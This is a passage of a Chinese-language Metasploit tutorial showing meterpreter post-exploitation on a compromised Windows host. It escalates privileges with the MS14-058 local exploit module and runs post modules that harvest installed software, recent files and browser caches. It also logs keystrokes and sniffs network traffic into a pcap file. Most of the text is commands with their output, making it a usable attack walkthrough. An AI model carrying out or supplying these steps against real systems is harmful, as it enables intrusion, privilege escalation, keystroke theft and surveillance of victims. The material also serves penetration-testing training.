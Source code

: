   * getsystem 大部分都会失败 他只尝试了4个Payload。
    
        meterpreter > getuid    
    Server username: Testing\Croxy    
    meterpreter > getsystem    
    [-] priv_elevate_getsystem: Operation failed: Access is denied.    
    

  * 使用MS14-058之类的Exp进行提权
    
        meterpreter > background
    [*] Backgrounding session 3..
    msf exploit(handler) > use exploit/windows/local/ms14_058_track_popup_menu
    msf exploit(ms14_058_track_popup_menu) > set SESSION 3
    

![](http://static.wooyun.org//drops/20151102/2015110211392879324.png)

再也不用去网上找Exp来下载拉～：）

### 获取敏感信息（Windows版本 Linux自行选择）

    
    
    run post/windows/gather/checkvm #是否虚拟机
    run post/windows/gather/enum_applications #获取安装软件信息
    run post/windows/gather/dumplinks   #获取最近的文件操作
    run post/windows/gather/enum_ie  #获取IE缓存
    run post/windows/gather/enum_chrome   #获取Chrome缓存
    run scraper                      #获取常见信息
    #保存在～/.msf4/logs/scripts/scraper/目录下
    

详细请参考 <http://drops.wooyun.org/tips/9732>

### 键盘记录

    
    
    meterpreter > keyscan_start
    Starting the keystroke sniffer...
    meterpreter > keyscan_dump
    Dumping captured keystrokes...
    dir <Return> cd  <Ctrl>  <LCtrl>
    meterpreter > keyscan_stop
    Stopping the keystroke sniffer...
    

### 网络嗅探

    
    
    meterpreter > use sniffer
    Loading extension sniffer...success.
    meterpreter > sniffer_interfaces
        1 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
        2 - 'Intel(R) PRO/1000 MT Desktop Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
        3 - 'Cisco Systems VPN Adapter' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )
    meterpreter > sniffer_start 2
    [*] Capture started on interface 2 (50000 packet buffer)
    meterpreter > sniffer_dump 2 /tmp/test2.cap
    [*] Flushing packet capture buffer for interface 2...
    [*] Flushed 1176 packets (443692 bytes)
    [*] Downloaded 100% (443692/443692)...
    [*] Download completed, converting to PCAP...
    [*] PCAP file written to /tmp/test2.cap
    